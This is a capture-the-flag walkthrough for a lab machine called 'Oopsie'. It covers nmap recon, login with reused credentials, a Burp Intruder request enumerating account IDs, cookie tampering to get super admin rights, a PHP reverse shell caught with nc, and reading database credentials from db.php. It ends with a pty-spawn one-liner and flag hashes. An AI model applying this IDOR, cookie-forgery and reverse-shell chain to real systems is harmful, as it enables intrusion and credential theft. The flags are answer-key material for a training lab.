## Walkthrough
- [`nmap -sC -sV 10.10.10.28`](nmap.txt)
```
# Nmap 7.92 scan initiated Fri Aug 13 21:57:14 2021 as: nmap -sC -sV -oN nmap.txt 10.10.10.28
Nmap scan report for 10.10.10.28
Host is up (0.49s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Aug 13 21:58:16 2021 -- 1 IP address (1 host up) scanned in 62.00 seconds
```
Here we found two open ports i.e 22(for SSH) and 80(for HTTP)
- `Port 80 is open thus a website found which is hosted in 10.10.10.28:80`
<p align="center">
  
</p>

- `Site map is loaded using Burpsuite Community Edition Free`
<p align="center">
  
</p>

- `Trying to open the webpage`
<p align="center">
  
</p>

- `Trying to login with the old credentials found from Archetype Machine`
Username = ``admin``
Password = ``MEGACORP_4dm1n!!``
<p align="center">
  
</p>

- `It Successfully logged in`
<p align="center">
  
</p>

- `Viewing the Account details`
<p align="center">
  
</p>

Here we see that this is an admin account with access id 34322

- `Viewing the uploads section`
<p align="center">
  
</p>
Here nothing can be uploaded from admin account, it needed super admin account

- [`From Burpsuite bruteforce is done from Intruder tab`](burp_req_bruteforce.txt)
```
GET /cdn-cgi/login/admin.php?content=accounts&id=§1§ HTTP/1.1
Host: 10.10.10.28
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.10.28/cdn-cgi/login/admin.php?content=uploads
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: user=34322; role=admin
Connection: close
```
<p align="center">
  
</p>

Here we scan from 1 to 100 id to find super user and we found it in id=30
<p align="center">
  
</p>

The super admin ID RAW is
```
HTTP/1.1 200 OK
Date: Mon, 16 Aug 2021 17:41:29 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 3634
Connection: close
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html lang="en">
...
...
...
<td>86575</td><td>super admin</td><td>superadmin@megacorp.com</td></tr></table<script src='/js/jquery.min.js'></script>
<script src='/js/bootstrap.min.js'></script>
</body>
</html>
```
Here we found the Access ID of super admin is `86575`.
- `Super User Account`
<p align="center">
  
</p>

- `Now by changing the cookies by super admin we can upload` 

    - BURPSUITE REQUEST
<p align="center">
  
</p>

- `Files can be uploaded as super admin`
<p align="center">
  
</p>

- `Uploading the php file for connecting with nc`
<p align="center">
  
</p>

- `Now using gobuster find the directory where it uploaded the file`
<p align="center">
  
</p>

Here I found `uploads` directory thus by changing the url to `10.10.10.28/uploads/phprev.php`
    
- [php used here is](phprev.php)
<p align="center">
  
</p>

Here it kept buffering but `nc` connection gets extablished simultaneously.
- [`nc -lvmp port`]
```
Connection from 10.10.10.28:53738
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 19:29:26 up  1:00,  0 users,  load average: 0.08, 0.05, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ www-data@oopsie:/$ pwd
/
www-data@oopsie:/$ ls
bin    dev   initrd.img      lib64	 mnt   root  snap      sys  var
boot   etc   initrd.img.old  lost+found  opt   run   srv       tmp  vmlinuz
cdrom  home  lib	     media	 proc  sbin  swap.img  usr  vmlinuz.old
www-data@oopsie:/$ cd usr
www-data@oopsie:/usr$ ls
bin  games  include  lib  local  sbin  share  src
www-data@oopsie:/usr$ cd ..
www-data@oopsie:/$ cd var
www-data@oopsie:/var$ ls
backups  crash	local  log   opt  snap	 tmp
cache	 lib	lock   mail  run  spool  www
www-data@oopsie:/var$ cd www
www-data@oopsie:/var/www$ ls
html
www-data@oopsie:/var/www$ cd html
www-data@oopsie:/var/www/html$ ls
cdn-cgi  css  fonts  images  index.php	js  themes  uploads
www-data@oopsie:/var/www/html$ cd cdn-cgi
www-data@oopsie:/var/www/html/cdn-cgi$ ls
login
www-data@oopsie:/var/www/html/cdn-cgi$ cd login
www-data@oopsie:/var/www/html/cdn-cgi/login$ ls
admin.php  db.php  index.php  script.js
www-data@oopsie:/var/www/html/cdn-cgi/login$ ls -al
total 28
drwxr-xr-x 2 root root 4096 Jan 28  2020 .
drwxr-xr-x 3 root root 4096 Jan 28  2020 ..
-rw-r--r-- 1 root root 6333 Jan 28  2020 admin.php
-rw-r--r-- 1 root root   80 Jan 24  2020 db.php
-rw-r--r-- 1 root root 5007 Jan 28  2020 index.php
-rw-r--r-- 1 root root    0 Jan 24  2020 script.js
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
www-data@oopsie:/var/www/html/cdn-cgi/login$ 
```
python3 -c 'import pty; pty.spawn("/bin/bash")'

Robert
f2c74ee8db7983851ab2a96a44eb7981


<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>


SYSTEM
af13b0bee69f8a877c3faf667f7beacf